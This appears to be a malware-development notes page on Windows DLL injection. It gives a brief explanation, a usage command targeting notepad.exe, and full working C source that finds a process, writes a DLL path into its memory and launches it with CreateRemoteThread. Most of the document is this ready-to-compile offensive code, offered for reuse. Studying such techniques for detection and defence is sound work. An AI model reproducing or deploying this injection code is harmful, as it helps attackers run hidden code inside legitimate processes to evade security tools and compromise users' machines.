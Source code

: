 # Process Injection - DLL Injection

#### DLL Injection Technique

This C code demonstrates how to inject a DLL into a remote process:

1. **GetRemoteProcessHandle Function**:
   * Captures a snapshot of all active processes.
   * Compares each process name to the specified target name.
   * Returns the process handle if a match is found.
2. **InjectDllToRemoteProcess Function**:
   * Uses the acquired process handle.
   * Allocates memory in the target process with `VirtualAllocEx`.
   * Writes the DLL name into the allocated memory space.
   * Starts a remote thread in the process to load the DLL.

This approach dynamically incorporates additional functionality into the target application by injecting the specified DLL.

Usage:&#x20;

{% code overflow="wrap" %}
```powershell
.\ProcessInjection_DLL.exe "D:\MalDev Snippets\simpleDLL\x64\Debug\simpleDLL.dll" notepad.exe
```
{% endcode %}

```c
#include <stdio.h>
#include <Windows.h>
#include <tlhelp32.h>

BOOL GetRemoteProcessHandle(LPWSTR szProcessName, DWORD* dwProcessId, HANDLE* hProcess) {

	PROCESSENTRY32	Proc = {
		.dwSize = sizeof(PROCESSENTRY32)
	};
	HANDLE hSnapShot = NULL;
	hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);
	if (hSnapShot == INVALID_HANDLE_VALUE) {
		printf("[!] CreateToolhelp32Snapshot failed with error: %d\n", GetLastError());
		goto _EndOfFunction;
	}

	if (!Process32First(hSnapShot, &Proc)) {
		printf("[!] Process32First failed with error: %d\n", GetLastError());
		goto _EndOfFunction;
	}

	do {

		WCHAR LowerName[MAX_PATH * 2];

		if (Proc.szExeFile) {
			DWORD dwSize = lstrlenW(Proc.szExeFile);
			DWORD i = 0;
			RtlSecureZeroMemory(LowerName, MAX_PATH * 2);


			if (dwSize < MAX_PATH * 2) {

				for (; i < dwSize; i++)
					LowerName[i] = (WCHAR)tolower(Proc.szExeFile[i]);
				LowerName[i++] = '\0';
			}
		}

		if (wcscmp(LowerName, szProcessName) == 0) {
			*dwProcessId = Proc.th32ProcessID;
			*hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, Proc.th32ProcessID);
			if (*hProcess == NULL) {
				printf("[!] OpenProcess Failed With Error : %d \n", GetLastError());
				goto _EndOfFunction;
			}
		}
	} while (Process32Next(hSnapShot, &Proc));

	_EndOfFunction:
		if (hSnapShot != NULL)
			CloseHandle(hSnapShot);
		if (*dwProcessId == NULL || *hProcess == NULL)
			return FALSE;
		return TRUE;
}


BOOL InjectDllToRemoteProcess(IN HANDLE hProcess, IN LPWSTR DllName) {

	BOOL BSTATE = TRUE;
	LPVOID pLoadLibraryW = NULL;
	LPVOID pAddress = NULL;
	DWORD dwSizeToWrite = lstrlen(DllName) * sizeof(WCHAR);
	SIZE_T lpNumberOfBytesWritten = NULL;
	HANDLE hThread = NULL;


	pLoadLibraryW = GetProcAddress(GetModuleHandleA("kernel32.dll"), "LoadLibraryW");
	if (pLoadLibraryW == NULL) {
		printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
		BSTATE = FALSE; goto _EndOfFunction;
	}

	pAddress = VirtualAllocEx(hProcess, NULL, dwSizeToWrite, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	if (pAddress == NULL) {
		printf("[!] VirtualAllocEx Failed With Error : %d \n", GetLastError());
		BSTATE = FALSE; goto _EndOfFunction;
	}

	printf("[i] pAddress Allocated at:  0x%p of Size: %d\n", pAddress, dwSizeToWrite);
	printf("[#] Press <Enter> to write...");
	getchar();

	if(!WriteProcessMemory(hProcess, pAddress, DllName, dwSizeToWrite, &lpNumberOfBytesWritten) || lpNumberOfBytesWritten != dwSizeToWrite){
		printf("[!] WriteProcessMemory Failed With Error : %d \n", GetLastError());
		BSTATE = FALSE; goto _EndOfFunction;
	}

	printf("[i] Sucessfully Written %d Bytes\n", lpNumberOfBytesWritten);
	printf("[#] Press <Enter> to Run...");
	getchar();

	printf("[i] Executing Payload...");
	hThread = CreateRemoteThread(hProcess, NULL, 0, pLoadLibraryW, pAddress, NULL, NULL);
	if (hThread == NULL) {
		printf("[!] CreateRemoteThread Failed With Error : %d \n", GetLastError());
		BSTATE = FALSE; goto _EndOfFunction;
	}
	printf("[+] Done !\n");


_EndOfFunction:
	if (hThread)
		CloseHandle(hThread);
	return BSTATE;
}

int wmain(int argc, wchar_t* argv[]) {

	HANDLE	hProcess = NULL;
	DWORD	dwProcessId = NULL;

	if (argc < 3) {
		wprintf(L"[!] Usage : \"%s\" <Complete Dll Payload Path> <Process Name> \n", argv[0]);
		return -1;
	}

	wprintf(L"[i] Searching For Process Id Of \"%s\" ... ", argv[2]);
	if (!GetRemoteProcessHandle(argv[2], &dwProcessId, &hProcess)) {
		printf("[!] Process is Not Found \n");
		return -1;
	}
	wprintf(L"[+] DONE \n");



	printf("[i] Found Target Process Pid: %d \n", dwProcessId);
	if (!InjectDllToRemoteProcess(hProcess, argv[1])) {
		return -1;
	}


	CloseHandle(hProcess);
	printf("[#] Press <Enter> To Quit ... ");
	getchar();
	return 0;
}
```
